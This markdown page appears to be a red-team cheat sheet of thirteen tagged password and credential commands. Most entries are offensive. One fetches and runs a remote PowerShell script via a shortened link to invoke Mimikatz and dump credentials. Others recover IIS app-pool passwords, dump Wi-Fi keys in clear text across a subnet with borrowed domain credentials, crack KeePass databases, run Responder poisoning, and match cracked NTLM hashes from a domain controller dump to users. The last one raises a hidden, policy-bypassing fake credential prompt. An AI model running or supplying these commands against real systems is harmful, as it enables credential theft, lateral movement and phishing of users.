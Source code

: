 ### 1. get password policy for root
```
chage -l root
```
**- linux,bash,passwords,enumeration,user information**
#### References:

http://www.thegeekstuff.com/2009/04/chage-linux-password-expiration-and-aging/
__________
### 2. Invoke mimicatz, can use with psexec for pwnage
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/1qMn59d'); Invoke-Mimikatz -DumpCreds"
```
**- passwords,Windows,av evasion,powershell**
#### References:

http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz
__________
### 3. Recover IIS password
```
c:\windows\system32\inetsrv\appcmd.exe list apppool "SharePoint Central Administration v4" /text:ProcessModel.Password
```
**- passwords,enumeration,Windows,IIS**
#### References:

https://yg.ht
https://www.iis.net/learn/get-started/getting-started-with-iis/getting-started-with-appcmdexe
__________
### 4. Windows Wireless
```
netsh wlan show profile
```
**- networking,passwords,enumeration,Windows,wireless,wifi**
#### References:

http://Microsoft.com
__________
### 5. Windows Wireless
```
netsh wlan show profile name="[SSID]" key=clear
```
**- networking,passwords,Windows,wireless,wifi**
#### References:

https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 6. loop dump wifi keys
```
for host in $(cat localsubnet.txt); do echo "Trying $host"; winexe --user [Domain]/[user]%[pass] //$host "netsh wlan export profile name=[PROFILE] key=clear"; done
```
**- bash,loop,passwords,enumeration,wireless,wifi**
#### References:

https://yg.ht
https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 7. KeePass2 Cracking
```
wine KeeCracker.exe -w /data/hacking/dictionaries/rockyou.dic -t 4 Database.kdbx
```
**- linux,passwords,Windows,cracking**
#### References:

https://yg.ht
http://www.cervezhack.fr/2013/02/12/bruteforce-a-keepass-file/?lang=en
__________
### 8. Word list generator
```
./mp64.bin -o custom.dic -1 tT -2 eE3 -3 ?s ?1qq?2qqq?2?2qq?2?3?3
```
**- linux,passwords,Windows,cracking**
#### References:

https://hashcat.net/wiki/doku.php?id=maskprocessor
__________
### 9. responder NBNS LLMNR
```
/data/hacking/Responder/Responder.py -I eth0 -wrfFd --lm -i [YOUR IP]
```
**- linux,passwords,smb,MitM,privilege escalation**
#### References:

https://github.com/SpiderLabs/Responder
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
__________
### 10. Password Generator
```
genpasswd [CHAR LENGTH]
```
**- linux,passwords**
#### References:

https://www.cyberciti.biz/faq/linux-random-password-generator/
__________
### 11. create medusa or hydra password list from cracked hashes
```
cat DC_dump.txt | awk -F : '{print $1":"$4}' | sort -k 2 -t : > sorted_hash; cat ntlm_cracked | sort -k 1 > sorted_cracked; join -t : -1 2 sorted_hash -2 1 sorted_cracked  >> pass_info
```
**- pivoting,passwords,enumeration,user information,cracking**
#### References:

http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
__________
### 12. print vpn keys
```
ip xfrm state list
```
**- linux,bash,networking,passwords**
#### References:

https://www.cyberciti.biz/faq/linux-ip-command-examples-usage-syntax/
__________
### 13. Ask user for credentials
```
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass $Host.UI.PromptForCredential("[title]","[message]","[user]","[domain]")
```
**- passwords,Windows,powershell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
